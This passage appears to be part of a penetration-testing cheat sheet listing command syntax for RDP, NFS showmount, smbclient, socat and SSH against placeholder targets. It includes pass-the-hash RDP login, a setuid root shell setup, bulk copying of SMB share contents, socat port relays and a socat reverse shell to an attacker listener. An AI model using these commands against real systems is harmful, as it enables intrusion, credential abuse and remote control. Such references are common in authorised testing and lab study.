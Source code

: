 </code></pre>
<h4>RDP</h4>
<pre><code class="language-c">xfreerdp /v:&lt;RHOST&gt; /u:&lt;USERNAME&gt; /p:&lt;PASSWORD&gt; /dynamic-resolution +clipboard
xfreerdp /v:&lt;RHOST&gt; /u:&lt;USERNAME&gt; /d:&lt;DOMAIN&gt; /pth:'&lt;HASH&gt;' /dynamic-resolution +clipboard
rdesktop &lt;RHOST&gt;
</code></pre>
<h4>showmount</h4>
<pre><code class="language-c">/usr/sbin/showmount -e &lt;RHOST&gt;
sudo showmount -e &lt;RHOST&gt;
chown root:root sid-shell; chmod +s sid-shell
</code></pre>
<h4>smbclient</h4>
<pre><code class="language-c">smbclient -L \\&lt;RHOST&gt;\ -N
smbclient -L //&lt;RHOST&gt;/ -N
smbclient -L ////&lt;RHOST&gt;/ -N
smbclient -U &quot;&lt;USERNAME&gt;&quot; -L \\\\&lt;RHOST&gt;\\
smbclient -L //&lt;RHOST&gt;// -U &lt;USERNAME&gt;%&lt;PASSWORD&gt;
smbclient //&lt;RHOST&gt;/SYSVOL -U &lt;USERNAME&gt;%&lt;PASSWORD&gt;
smbclient &quot;\\\\&lt;RHOST&gt;\&lt;SHARE&gt;&quot;
smbclient \\\\&lt;RHOST&gt;\\&lt;SHARE&gt; -U '&lt;USERNAME&gt;' --socket-options='TCP_NODELAY IPTOS_LOWDELAY SO_KEEPALIVE SO_RCVBUF=131072 SO_SNDBUF=131072' -t 40000
smbclient --no-pass //&lt;RHOST&gt;/&lt;SHARE&gt;
mount.cifs //&lt;RHOST&gt;/&lt;SHARE&gt; /mnt/remote
guestmount --add '/&lt;MOUNTPOINT&gt;/&lt;DIRECTORY/FILE&gt;' --inspector --ro /mnt/&lt;MOUNT&gt; -v
</code></pre>
<h5>Download multiple files at once</h5>
<pre><code class="language-c">mask&quot;&quot;
recurse ON
prompt OFF
mget *
</code></pre>
<h5>Upload multiple Files at once</h5>
<pre><code class="language-c">recurse ON
prompt OFF
mput *
</code></pre>
<h4>socat</h4>
<pre><code class="language-c">socat TCP-LISTEN:&lt;LPORT&gt;,fork TCP:&lt;RHOST&gt;:&lt;RPORT&gt;
</code></pre>
<pre><code class="language-c">socat file:`tty`,raw,echo=0 tcp-listen:&lt;LPORT&gt;
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:&lt;LHOST&gt;:&lt;LPORT&gt;
</code></pre>
<pre><code class="language-c">socat tcp-listen:5986,reuseaddr,fork tcp:&lt;RHOST&gt;:9002
socat tcp-listen:9002,reuseaddr,fork tcp:192.168.122.228:5968 &amp;
</code></pre>
<h4>SSH</h4>
<pre><code class="language-c">ssh user@&lt;RHOST&gt; -oKexAlgorithms=+diffie-hellman-group1-sha1
